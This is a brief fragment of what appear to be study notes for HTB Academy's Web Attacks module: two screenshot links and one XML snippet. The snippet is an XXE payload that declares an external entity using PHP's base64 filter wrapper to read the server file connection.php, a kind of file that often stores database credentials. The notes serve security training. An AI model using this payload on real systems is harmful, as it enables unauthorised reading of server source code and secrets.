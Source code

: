 ![alt text](../assets/images/HTB_Academy_Web_Attacks/image-80.png)

![alt text](../assets/images/HTB_Academy_Web_Attacks/image-81.png)

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
```
